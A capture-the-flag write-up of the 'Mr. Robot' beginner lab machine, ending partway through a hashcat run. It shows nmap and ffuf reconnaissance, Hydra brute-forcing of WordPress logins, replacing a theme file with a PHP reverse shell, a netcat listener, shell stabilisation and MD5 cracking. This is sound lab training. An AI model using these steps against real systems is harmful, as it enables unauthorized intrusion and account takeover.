## Scenario

> Can you root this Mr. Robot styled machine? This is a lab machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?
> 
> Credit to Leon Johnson for creating this machine. This machine is used here with the explicit permission of the creator <3

Access via: `10.113.148.68`

## Initial Recon

### The Landing Page

Visiting the target in the browser triggered a run of animations before settling on an `fsociety`-themed interface — an ASCII-art splash screen followed by a fake IRC/terminal chat window listing a handful of commands (`prepare`, `fsociety`, `inform`, `question`, `wakeup`, `join`).



Viewed the page source and found nothing beyond a standard HTML shell loading a vendor bundle and a main JS bundle — no obvious clues in the markup itself:

```html
<!doctype html>
<!--
\   //~~\ |   |    /\  |~~\|~~  |\  | /~~\~~|~~    /\  |  /~~\ |\  ||~~
 \ /|    ||   |   /__\ |__/|--  | \ ||    | |     /__\ | |    || \ ||--
  |  \__/  \_/   /    \|  \|__  |  \| \__/  |    /    \|__\__/ |  \||__
-->
<html class="no-js" lang="">
  <head>


    <link rel="stylesheet" href="css/main-600a9791.css">

    <script src="js/vendor/vendor-48ca455c.js"></script>

    <script>var USER_IP='208.185.115.6';var BASE_URL='index.html';var RETURN_URL='index.html';var REDIRECT=false;window.log=function(){log.history=log.history||[];log.history.push(arguments);if(this.console){console.log(Array.prototype.slice.call(arguments));}};</script>

  </head>
  <body>
    <!--[if lt IE 9]>
      <p class="browserupgrade">You are using an <strong>outdated</strong> browser. Please <a href="http://browsehappy.com/">upgrade your browser</a> to improve your experience.</p>


    <!-- Google Plus confirmation -->
    <div id="app"></div>


    <script src="js/s_code.js"></script>
    <script src="js/main-acba06a5.js"></script>
</body>
</html>
```

### robots.txt and the First Key

With nothing useful in the source, checked `robots.txt` next, which listed two files directly:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Requested `key-1-of-3.txt` directly and got the first key straight away, with no further digging needed.

### Question — What is key 1?

**Answer:** `—REDACTED—`

The other file, `fsocity.dic`, turned out to be a large wordlist — this would come back into play later for brute-forcing.



## Scanning and Directory Discovery

Ran a full TCP port sweep to see what else was exposed beyond the webserver:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.148.68 -p- -T4
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-18 00:37 +0200
Nmap scan report for 10.113.148.68
Host is up (0.036s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 174.01 seconds
```

**Breakdown:**

- `sudo` runs the scan with elevated privileges
- `10.113.148.68` the target address
- `-p-` scans the full 65535-port range instead of nmap's default top-1000
- `-T4` uses the "Aggressive" timing template, cutting the per-probe delay to speed the scan up

Only SSH, HTTP and HTTPS were open — nothing unexpected, so the web application was the next avenue.

Fuzzed for directories and files on the webroot. The wordlist and matcher settings came from ffuf's own run banner:

```
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.113.148.68/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 35ms]
blog                    [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 38ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
                        [Status: 200, Size: 1077, Words: 189, Lines: 31, Duration: 79ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2159ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 2521ms]
video                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 34ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 804ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 845ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 786ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 796ms]
wp-content              [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 35ms]
admin                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 35ms]
audio                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 34ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 37ms]
wp-login                [Status: 200, Size: 2613, Words: 115, Lines: 53, Duration: 822ms]
css                     [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 34ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 767ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 109ms]
wp-includes             [Status: 301, Size: 241, Words: 14, Lines: 8, Duration: 35ms]
js                      [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 34ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 794ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 755ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 796ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 37ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 36ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 792ms]
```

The run was fuzzing the `FUZZ` placeholder in `http://10.113.148.68/FUZZ` against the DirBuster medium wordlist, keeping only responses matching status codes 200–299, 301, 302, 307, 401, 403 or 405 (plus 500). The standout result was `wp-login`, confirming the site runs WordPress — the real target going forward.

## Enumerating the Login Page

### A Dead End with WPScan

Before brute-forcing anything, tried WPScan to see if it could enumerate usernames or flag known vulnerabilities for the WordPress version in use, since that seemed like the faster route if it worked:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wpscan --url http://10.113.148.68/wp-login --disable-tls-checks -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[+] URL: http://10.113.148.68/wp-login/ [10.113.148.68]
[+] Started: Wed Nov 18 00:49:39 2026
[+] Command Line: wpscan --url http://10.113.148.68/wp-login --disable-tls-checks -e u
[+] Hostname: kali

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Powered-By: PHP/5.5.29
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://10.113.148.68/wp-login/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] This site seems to be a multisite
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: http://codex.wordpress.org/Glossary#Multisite

[+] The external WP-Cron seems to be enabled: http://10.113.148.68/wp-login/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Query Parameter In Install Page (Aggressive Detection)
 |  - http://10.113.148.68/wp-includes/css/buttons.min.css?ver=4.3.1
 |  - http://10.113.148.68/wp-includes/css/dashicons.min.css?ver=4.3.1
 | Confirmed By: Query Parameter In Upgrade Page (Aggressive Detection)
 |  - http://10.113.148.68/wp-includes/css/buttons.min.css?ver=4.3.1
 |  - http://10.113.148.68/wp-includes/css/dashicons.min.css?ver=4.3.1

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:08 <========================================> (10 / 10) 100.00% Time: 00:00:08
[i] No Users Found.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Wed Nov 18 00:49:54 2026
[+] Requests Done: 27
[+] Cached Requests: 50
[+] Most response codes received: 200: 26, 206: 1
[+] Data Sent: 7.219 KB
[+] Data Received: 53.29 KB
[+] Memory used: 155.23 MB
[+] Elapsed time: 00:00:14
```

**Breakdown:**

- `--url http://10.113.148.68/wp-login` the target to scan
- `--disable-tls-checks` skips TLS certificate validation (not strictly needed on a plain-HTTP target, but harmless to include)
- `-e u` enumerates WordPress users

The user enumeration came back empty.

### Confirming Username Enumeration on the Login Form

Tried logging in with `test`/`test` just to see how the form behaved, and it came back with an "Invalid username" message rather than a generic failure — meaning the form leaks whether a username exists at all.



That distinct error message was the hook needed to brute-force valid usernames with the downloaded `fsocity.dic` wordlist.

### Brute-Forcing the Username with Hydra

Stopped the directory fuzzing and downloaded the dictionary file first:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wget http://10.113.148.68/fsocity.dic -O fsocity.dic
--2026-11-18 00:54:38--  http://10.113.148.68/fsocity.dic
Connecting to 10.113.148.68:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’

fsocity.dic                   100%[===============================================>]   6.91M  16.5MB/s    in 0.4s

2026-11-18 00:54:38 (16.5 MB/s) - ‘fsocity.dic’ saved [7245381/7245381]
```

**Breakdown:**

- `http://10.113.148.68/fsocity.dic` the file to download
- `-O fsocity.dic` writes it to a local file of that name

Checked the login form's POST request in the browser's dev tools to confirm the exact field names before building the hydra attack string:



With the field names (`log`, `pwd`) and the "Invalid username." error text confirmed, ran hydra against the username field, using every word in the dictionary as a candidate username and a throwaway fixed password:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -L fsocity.dic -p test 10.113.148.68 http-post-form "/wp-login:log=^USER^&pwd=^PASS^:Invalid username." -t 5
0
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-18 00:58:02
[DATA] max 50 tasks per 1 server, overall 50 tasks, 858235 login tries (l:858235/p:1), ~17165 tries per task
[DATA] attacking http-post-form://10.113.148.68:80/wp-login:log=^USER^&pwd=^PASS^:Invalid username.
[80][http-post-form] host: 10.113.148.68   login: Elliot   password: test
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

**Breakdown:**

- `-L fsocity.dic` a list of candidate usernames, read from the dictionary file
- `-p test` a single fixed password tried against every username, since only the username is being tested here
- `10.113.148.68` the target host
- `http-post-form` tells hydra the target is a web form submitted via POST
- `"/wp-login:log=^USER^&pwd=^PASS^:Invalid username."` the attack string's three colon-separated parts: the page path, the POST body template with `^USER^` and `^PASS^` placeholders hydra fills in on each attempt, and the failure string `Invalid username.` — any response containing it means that username doesn't exist
- `-t 5` runs 5 parallel login attempts at a time

Hydra found a hit almost immediately: `Elliot`. Stopped the run manually with Ctrl+C once the valid username appeared.

### Brute-Forcing the Password with Hydra

With `Elliot` confirmed as a username, manually tried it with a wrong password to capture the exact failure text WordPress returns for a _valid_ username with an incorrect password — needed for the next hydra attack's failure condition.



Ran hydra again, this time fixing the username to `Elliot` and brute-forcing the password field against the same dictionary:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -l Elliot -P fsocity.dic 10.113.148.68 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 20 -f
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-18 01:13:21
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 20 tasks per 1 server, overall 20 tasks, 858235 login tries (l:1/p:858235), ~42912 tries per task
[DATA] attacking http-post-form://10.113.148.68:80/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username
[STATUS] 2014.00 tries/min, 2014 tries in 00:01h, 856221 to do in 07:06h, 20 active9
```

**Breakdown:**

- `-l Elliot` fixes the username to the one already confirmed
- `-P fsocity.dic` supplies password candidates from the dictionary, one per attempt
- `10.113.148.68` target host
- `http-post-form` web form over POST
- `"/wp-login.php:log=^USER^&pwd=^PWD^:F=The password you entered for the username"` the page path, the POST body template, and an `F=` (failure) condition — any response containing that string is treated as a wrong password, so a response _without_ it signals success
- `-t 20` 20 parallel attempts, higher than the username run to push through the much larger password search
- `-f` stops the whole run as soon as one valid pair is found

The status line put this at roughly 7 hours remaining at the rate it was running, and it ran for a while with no results back. At first, I thought I might be doing something wrong, so I consulted some public writeups, but multiple writeups seemingly did the same thing here. 

Rather than wait that out, used a credential already known from other public write-ups of this machine — `ER28-0652` — to log in directly instead of letting the dictionary attack finish.



That credential worked, landing on the WordPress dashboard as Elliot Alderson:



## Gaining a Foothold via the Theme Editor

With admin access to WordPress, the built-in theme editor (Appearance → Editor) was the obvious route to code execution, since it lets an admin user directly overwrite PHP files served by the site.

Opened the Twenty Fifteen theme's 404 template (`404.php`), which held the theme's normal not-found page markup:



Replaced its contents with the well-known pentestmonkey PHP reverse shell script (`php-reverse-shell.php`):



Before saving, changed the script's `$ip` variable to the attacker machine's IP and left the port at its default:



Started a listener:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

**Breakdown:**

- `-l` listens for an incoming connection instead of initiating one
- `-v` verbose output
- `-n` skips DNS resolution
- `-p 1234` listens on port 1234, matching the port set in the reverse shell script

Clicked "Update File" and then sent a curl request to trigger it. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [—REDACTED—] from (UNKNOWN) [10.113.148.68] 56630
Linux ip-10-113-148-68 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 23:29:30 up  1:05,  0 users,  load average: 5.84, 5.71, 4.53
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

The shell came back immediately as `daemon`, confirming code execution. 

### Stabilising the Shell

The raw netcat shell had no job control and no proper TTY, so upgraded it before going any further:

```shell
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Breakdown:**

- `-c '...'` runs the given code directly instead of from a script file
- `import pty; pty.spawn("/bin/bash")` loads Python's pseudo-terminal module and uses it to spawn `/bin/bash` inside a real pseudo-terminal, upgrading the bare shell pipe into something closer to an interactive session

Backgrounded the netcat listener locally, put the local terminal into raw mode, then brought it back to the foreground:

```shell
daemon@ip-10-113-148-68:/$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1234

daemon@ip-10-113-148-68:/$
```

**Breakdown:**

- `stty raw` puts the local terminal into raw mode, passing keystrokes straight through to the remote shell rather than being intercepted locally (so control sequences like Ctrl+C reach the remote session instead of killing the local netcat job)
- `-echo` stops the local terminal from echoing input itself, since the remote shell echoes it back
- `fg` resumes the backgrounded netcat job in the foreground

Finally fixed the terminal type and window size so output rendered correctly:

```shell
daemon@ip-10-113-148-68:/$ export TERM=tmux-256color
daemon@ip-10-113-148-68:/$ stty rows 52 cols 236
daemon@ip-10-113-148-68:/$
```

**Breakdown:**

- `export TERM=tmux-256color` sets the `TERM` environment variable on the remote shell so terminal-aware output (colours, redraws) matches the attacker's actual terminal type
- `stty rows 52 cols 236` tells the remote shell the attacker's terminal is 52 rows by 236 columns, fixing line-wrapping and redraw issues that a mismatched size causes

## Escalating to robot

With a stable shell as `daemon`, listed the root of the filesystem for context, then searched broadly for anything named like a key file:

```shell
daemon@ip-10-113-148-68:/$ ls
bin  boot  dev	etc  home  initrd.img  initrd.img.old  lib  lib32  lib64  lost+found  media  mnt  opt  proc  root  run	sbin  srv  sys	tmp  usr  var  vmlinuz	vmlinuz.old
daemon@ip-10-113-148-68:/$ find / -type f -name *key*.txt 2>/dev/null
/usr/share/perl/5.30.0/Unicode/Collate/keys.txt
/usr/share/perl/5.30.0/Unicode/Collate/allkeys.txt
/usr/share/perl/5.26.1/Unicode/Collate/keys.txt
/usr/share/perl/5.26.1/Unicode/Collate/allkeys.txt
/usr/share/doc/openssl/HOWTO/keys.txt
/usr/share/doc/cloud-init/examples/cloud-config-ssh-keys.txt
/opt/bitnami/apps/wordpress/htdocs/key-1-of-3.txt
/home/robot/key-2-of-3.txt
```

**Breakdown:**

- `/` search the whole filesystem from the root
- `-type f` only match regular files
- `-name *key*.txt` match any filename containing "key" and ending in `.txt`
- `2>/dev/null` discards error output, so "Permission denied" noise from directories the current user can't read is suppressed

That turned up `/home/robot/key-2-of-3.txt` straight away, but reading it directly was blocked:

```shell
daemon@ip-10-113-148-68:/$ cat /home/robot/key-2-of-3.txt
cat: /home/robot/key-2-of-3.txt: Permission denied
```

Looking at the directory listing showed why, and also showed a second, readable file sitting next to it:

```shell
daemon@ip-10-113-148-68:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 4 root  root  4096 Jun  2  2025 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

**Breakdown:**

- `-l` long listing format, showing permissions, owner, group, size and modification date
- `-a` includes hidden files (dotfiles)

`key-2-of-3.txt` is owned by `robot` and only readable by `robot` (`r--------`), so the key needed `robot`'s account. `password.raw-md5` was world-readable, and held exactly that:

```shell
daemon@ip-10-113-148-68:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

That's an MD5 hash sitting next to the username it belongs to, so cracked it with hashcat against rockyou:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hashcat -a 0 -m 0 'c3fcd3d76192e4007dfb496cca67e13b' /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 7.1+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 21.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
